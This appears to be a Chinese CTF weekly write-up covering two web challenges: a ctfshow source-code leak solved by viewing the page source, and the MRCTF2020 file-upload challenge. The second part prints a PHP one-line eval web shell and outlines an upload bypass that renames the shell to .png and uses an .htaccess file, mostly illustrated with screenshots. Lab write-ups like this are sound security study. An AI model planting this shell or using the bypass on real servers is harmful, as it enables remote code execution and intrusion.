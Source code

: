 ## 3.[ctfshow]源码泄露

*信息收集是一切渗透的前提*

### 本题知识点

```
本题没有知识点，十分简单的题.....我不会承认是用来水周报专门找的，我估计也没有人会看，就算会看我前面那个re写那么认真，中间插一个水字数的，怎么会被发现是吧0.0
```

由于本题太简单，直接描述做题过程：

打开环境→查看页面源代码→得到falg→提交→完事

![image-20240420232625270](./images/2024-4.15-4.21/image-20240420232625270.png)

## 4.[MRCTF2020]你传你🐎呢 

*看开一点，世界就是一个大的草台班子*

### 本题知识点

```
.htaccess应用和文件类型检测
```

bp抓包上传一句话木马

```php
<?php @eval($_POST['cx']);?>
```

![pasted-1](./images/2024-4.15-4.21/pasted-1.png)

发包到repeate模块，方便后面操作，sent。

![pasted-1](./images/2024-4.15-4.21/pasted-1-1713631152632-2.png)

改后缀为png上传

![pasted-2](./images/2024-4.15-4.21/pasted-2.png)

考虑可能还有文件类型检测，使用.htaccess配置文件来组合上传马子。

先试试改文件类型可以传上去不。

![pasted-2](./images/2024-4.15-4.21/pasted-2-1713631298079-5.png)

可以正常上传且有回显路径，那就没问题了，

配置.htaccess文件,上传。

![pasted-4](./images/2024-4.15-4.21/pasted-4.png)

成功上传且有回显路径![pasted-5](./images/2024-4.15-4.21/pasted-5.png)
